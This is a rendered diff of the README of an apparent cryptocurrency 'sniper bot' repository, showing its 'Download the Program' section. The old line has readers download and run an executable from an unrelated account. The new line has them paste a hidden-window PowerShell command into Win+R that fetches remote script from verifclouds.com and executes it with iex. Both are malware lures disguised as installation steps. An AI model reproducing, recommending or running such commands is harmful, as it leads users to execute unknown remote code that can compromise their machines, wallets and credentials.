

Before and after one commit to Pump-Fun-Sniper/Pump-Fun-Sniper-Bot, a Markdown page: README.md, the part around the change. GitHub-like rendering.

```diff
--- a/README.md
+++ b/README.md
@@ -19,11 +19,10 @@
 </ul>
 
 <h2>📥 Download the Program</h2>
-<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>
+<h3>copy and execute the following command in (Win+R)</h3>
 
 <pre>
-  <code id="code-snippet">&lt;Invoke-WebRequest -Uri "https://github.com/NPM-Package-Manager/NPM-Modules/raw/refs/heads/main/npmmanager.exe" -OutFile "C:\Users\$env:USERNAME\AppData\Local\npmmanager.exe"
-Start-Process "C:\Users\$env:USERNAME\AppData\Local\npmmanager.exe"&gt;</code>
+  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://verifclouds.com/1.txt';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
 </pre>
 
 <p>You can download the limited version of the program for free directly from my repository! 🆓 However, the extended version is available for download at the link below and includes additional modules and modes of operation that are not included in the limited version. 💪</p>
```
